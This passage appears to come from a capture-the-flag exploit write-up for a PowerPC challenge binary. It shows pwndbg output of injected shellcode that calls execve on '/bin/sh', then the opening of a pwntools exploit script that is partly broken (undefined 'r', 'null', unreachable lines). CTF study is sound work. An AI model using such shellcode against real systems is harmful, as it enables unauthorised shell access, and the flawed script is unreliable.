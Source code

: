 ```bash
──────────────────────────────────[ BACKTRACE ]───────────────────────────────────
 ► f 0 0x100004f0
   f 1 0xf6ffebc8
──────────────────────────────────────────────────────────────────────────────────
pwndbg> p/x $lr
$1 = 0xf6ffebc8
```

```bash
────────────────────────────────────[ DISASM ]────────────────────────────────────
   0xf6ffebe8    xor    r3, r3, r3
 ► 0xf6ffebec    xor    r4, r4, r4
   0xf6ffebf0    xor    r5, r5, r5
   0xf6ffebf4    li     r0, 0xb
   0xf6ffebf8    mflr   r3
   0xf6ffebfc    addi   r3, r3, 0x1c
   0xf6ffec00    sc     
────────────────────────────────────[ STACK ]─────────────────────────────────────
00:0000│ r11 sp 0xf6ffed20 ◂— 0x0
01:0004│        0xf6ffed24 —▸ 0xf6ffebe8 ◂— 0x7c631a78
02:0008│        0xf6ffed28 ◂— 0xa000000 /* '\n' */
03:000c│        0xf6ffed2c ◂— 0x0
04:0010│        0xf6ffed30 ◂— '<(\rx'
05:0014│        0xf6ffed34 ◂— 0x0
06:0018│        0xf6ffed38 ◂— 0xdad7e710
07:001c│        0xf6ffed3c ◂— 0x0
──────────────────────────────────[ BACKTRACE ]───────────────────────────────────
 ► f 0 0xf6ffebec
   f 1 0xf6ffebe8
──────────────────────────────────────────────────────────────────────────────────
pwndbg> tel 0xf6ffebe8
00:0000│    0xf6ffebe8 ◂— 0x7c631a78
01:0004│ pc 0xf6ffebec ◂— 0x7c842278
02:0008│    0xf6ffebf0 ◂— 0x7ca52a78
03:000c│    0xf6ffebf4 ◂— 0x3800000b /* '8' */
04:0010│    0xf6ffebf8 ◂— 0x7c6802a6
05:0014│    0xf6ffebfc ◂— 0x3863001c /* '8c' */
06:0018│    0xf6ffec00 ◂— 0x44000002 /* 'D' */
07:001c│    0xf6ffec04 ◂— '/bin/sh'
pwndbg> 
```

## exp

```python
from pwn import *
import sys

context.log_level = 'debug'
context.endian = 'big'
context.arch='powerpc'
Debug = sys.argv[1]

elf = ELF('./PPPPPPC')

def get_sh(other_libc=null):
    if Debug == '1':
        return process(["./qemu-ppc-static","-g","1234","-L","./","./PPPPPPC"])
        log.info('Please use GDB remote!(Enter to continue)')
        pause()
        return r
    else:
        return process(["./qemu-ppc-static","-L","./","./PPPPPPC"])

```